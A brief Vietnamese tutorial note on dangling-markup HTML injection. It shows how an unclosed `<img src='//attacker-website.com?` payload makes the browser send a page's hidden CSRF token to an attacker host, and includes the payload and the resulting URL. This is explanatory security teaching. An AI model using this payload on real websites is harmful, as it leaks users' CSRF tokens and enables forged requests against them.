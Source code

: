 # HTML Injection 
## Dangling Markup 
- **Dangling Markup** xảy ra khi website chèn nội dung do người dùng cung cấp vào trong một thuộc tính HTML nhưng quên đóng dấu nháy hoặc thẻ.

=>  **Kết quả:** trình duyệt tiếp tục đọc phần HTML phía sau như là một phần của giá trị thuộc tính đó.
- Payload `<img src='//attacker-website.com?`
- HTMLSource trở thành 
```html
<img src='https://attacker.com?</div>
<input type="hidden" name="csrf" value="1337">
</form>
<p>I'm hacked? Oh no!</p>
```
=> Kết quả là trình duyệt sẽ gửi một request hình ảnh tới URL sau (đã được mã hóa URL) : `https://attacker.com/?%3C/div%3E%3Cinput%20type=%22hidden%22%20name=%22csrf%22%20value=%221337%22%3E%3C/form%3E%3Cp%3EI
`

=> Lấy được **CSRF**

